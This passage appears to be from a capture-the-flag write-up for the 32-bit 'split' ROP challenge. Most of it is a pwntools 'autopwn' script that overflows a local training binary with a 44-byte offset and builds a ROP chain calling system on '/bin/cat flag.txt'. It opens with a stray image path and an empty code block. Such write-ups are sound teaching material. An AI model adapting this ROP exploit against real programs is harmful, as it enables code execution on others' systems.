 ```python
```

we run it and get the flag.

![pwndbg](/post-images/split/12pwndbg.png)

There is an autopwn script for this challenge, without using all this code.

we will have to look for the offset manually.
There is no need looking for the system address we can go straight to the bin/cat/
We will us `ROP object`

## Autopwn

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./split32', checksec=False)
p = process()

# How many bytes to EIP?
padding = 44

# Locate the functions/strings we need
bincat_addr = next(elf.search(b'/bin/cat'))

# Print out the target address
info("%#x /bin/cat", bincat_addr)

# Get ROP gadgets
rop = ROP(elf)
# Create rop chain calling system(and pass it'/bin/cat flag.txt')
rop.system(bincat_addr)

# pprint(rop.gadgets)
print(rop.chain()) # info(rop.chain())

# Inject rop chain at correct offset
payload = fit({padding: rop.chain()})

# Save payload to file
write("payload", payload)

# PWN
p.sendlineafter('>', payload)
```
